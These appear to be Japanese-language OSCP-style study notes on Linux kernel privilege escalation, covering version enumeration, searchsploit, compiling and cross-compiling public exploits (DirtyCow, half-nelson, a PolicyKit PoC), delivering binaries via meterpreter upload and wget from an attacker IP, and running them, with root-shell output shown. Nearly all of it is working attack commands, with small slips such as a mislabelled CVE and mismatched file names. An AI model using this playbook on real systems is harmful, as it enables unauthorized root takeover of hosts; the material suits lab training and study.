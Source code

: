 # Kernel Vulnerabilities

まずはOSのバージョンを精査

```
cat /etc/issue
uname -r
arch
```

searchsploitする

```
searchsploit linux kernel ubuntu 16.04
```

PoCをコンパイルする（ターゲットのアーキテクチャに合わせる）

```
gcc 43418.c -o exploit
ls -lah exploit
```



* kernel番号で直接検索すると以外とexploitが簡単に見つかる場合がある。



### ubuntu 16.04(45010)

* 攻撃対象ホストがgccを持っているか確認する

  ```bash
  gcc
  find / -name gcc -type f 2>/dev/null
  ```

* ない場合、kaliでコンパイルする

  ```bash
  gcc -static 45010.c -o 45010
  ```

* meterpreterでアップロードする

  ```bash
  meterpreter > upload /home/kali/Documents/OSCP/24.Assembling_the_peces/45010 /tmp/
  ```

* 実行する

  ```bash
  chmod +x 45010
  ./45010
  ```



### dirtycow debian7.3

* Exploit-DBのPoC(40611.c)は事前に`sudo -s`ができてroot:root権限のファイルを作れる前提になっておりPEには不適切

* Exploit-DBのPoC(dirtycow2)は、32bitでクロスコンパイルすると-lcryptがないと怒られてコンパイルがおそらく不可

* 結局以下githubのPoCでPEできる

  https://github.com/exrienz/DirtyCow/blob/master/dc32.c

  * コンパイルする

  ```bash
  gcc -m32 -static cowroot2.c -o cowroot -pthread
  ```

  * 配送する

    ```bash
    wget http://192.168.119.168/cowroot -O cowroot
    ```

  * 実行する

    ```bash
    mongodb@humble:/tmp$ chmod +x cowroot
    chmod +x cowroot
    mongodb@humble:/tmp$ ./cowroot
    ./cowroot
    DirtyCow root privilege escalation
    Backing up /usr/bin/passwd.. to /tmp/bak
    Size of binary: 45396
    Racing, this may take a while..
    thread stopped
    /usr/bin/passwd is overwritten
    Popping root shell.
    Don't forget to restore /tmp/bak
    thread stopped
    root@humble:/tmp# echo 0 > /proc/sys/vm/dirty_writeback_centisecs
    echo 0 > /proc/sys/vm/dirty_writeback_centisecs
    ```

  * 注意点

    ttyは/bin/shではなく/bin/bashでした方がよい。

  

### 2.6.32-21-generic-pae (#32-Ubuntu)

https://www.exploit-db.com/exploits/17787

```
serachsploit -p 17787
```

```bash
# 攻撃対象ホスト
wget http://192.168.119.168/17787.c -O 17787.c
```

```bash
# 攻撃対象ホスト
gcc 14814.c -o half-nelson -lrt
```

```bash
./half-nelson
./half-nelson
[+] looking for symbols...
[+] resolved symbol commit_creds to 0xc0176140
[+] resolved symbol prepare_kernel_cred to 0xc0176480
[+] setting up exploit payload...
[+] creating PF_CAN socket...
[+] connecting PF_CAN socket...
[+] clearing out any active OPs via RX_DELETE...
[+] removing any active user-owned shmids...
[+] massaging kmalloc-96 SLUB cache with dummy allocations
[+] corrupting BCM OP with truncated allocation via RX_SETUP...
[+] mmap'ing truncated memory to short-circuit/EFAULT the memcpy_fromiovec...
[+] mmap'ed mapping of length 328 at 0xb785e000
[+] smashing adjacent shmid with dummy payload via malformed RX_SETUP...
[+] seeking out the smashed shmid_kernel...
[+] discovered our smashed shmid_kernel at shmid[149] = 5537941
[+] re-smashing the shmid_kernel with exploit payload...
[+] launching root shell!
root@core:/tmp# 
```



### CVE2021-4043(PolicyKit ubuntu16.04)

https://www.exploit-db.com/exploits/50689

```
vi evil-so.c
```

```
vi exploit.c
```

```bash
#kali
gcc -shared -o evil.so -fPIC evil-so.c
gcc -static exploit.c -o exploit
```

```bash
#攻撃対象端末
./exploit
```



### sharedでライブラリがないと怒られる場合

古いバージョンのdebianをdockerで立ててコンパイルする

https://forums.offensive-security.com/showthread.php?48259-Fix-for-incompatibility-with-older-versions-of-gcc-Kali-2022-3

```bash
kali@kali:~$ sudo docker pull debian:10
kali@kali:~$ mkdir ~/docker_shared
kali@kali:~$ docker run --name debian10 -v ~/docker_shared:/media -it debian:10 /bin/bash
```

```
root@e3edde4cb3e3:/#
```

```
kali@kali:~$ docker stop/start debian10
```

```
kali@kali:~$ docker exec -it debian10 /bin/bash
```

* コンパイルするときは`/media`に移動してコマンド実行する(kaliの`~/docker_shared`ディレクトリに配置される)



### gccコマンド

```
gcc -m32 -Wall -Wl,--hash-style=both -o linux-sendpage 9542.c
```

* -staticを付ける場合とつけない場合どちらも試してみる必要がある。

  -staticでやることで`segmentation fault`が発生する場合もある

* -m32：32bitCPU版でコンパイルする場合に付与する。アーキテクチャが違うと`cannot excecute`的なエラーが出る

* -Wl,--hash-style=both：`error while loading shared libraries: requires glibc 2.5 or later dynamic linker`が出た場合に付与する



↓↓↓クロスコンパイルについて詳しく説明してくれている

https://forums.offensive-security.com/showthread.php?33885-Rooted-Comments-on-cross-compiling-binaries-for-32-bit-Linux-OS-and-a-small-hint

↓↓↓kaliの最新バージョンのコンパイラについて言及している

https://forums.offensive-security.com/showthread.php?48259-Fix-for-incompatibility-with-older-versions-of-gcc-Kali-2022-3



### その他

* ttyがないと実行時に`sh: [XXXXX: 4] tcsetattr: Invalid argument`のようなエラーとなる。ttyがないか確認してなければコマンド実行する

  ```
  sh: [15273: 5] tcsetattr: Invalid argument
  sh-3.00$ tty
  not a tty
  ```

  ```
  python2 -c 'import pty; pty.spawn("/bin/sh")'
  ```

* 必要な動的ライブラリを確認する

  ```
  ldd <実行ファイル>
  ```

* カーネルのバージョンを必ず確認

  ```
  uname -r
  2.6.9-89.EL
  ```

* OSのバージョンを必ず確認

  ```
  sh-3.00$ cat /etc/issue
  CentOS release 4.8 (Final)
  Kernel \r on an \m
  ```

* アーキテクチャーを必ず確認

  ```
  arch
  i686
  ```

  
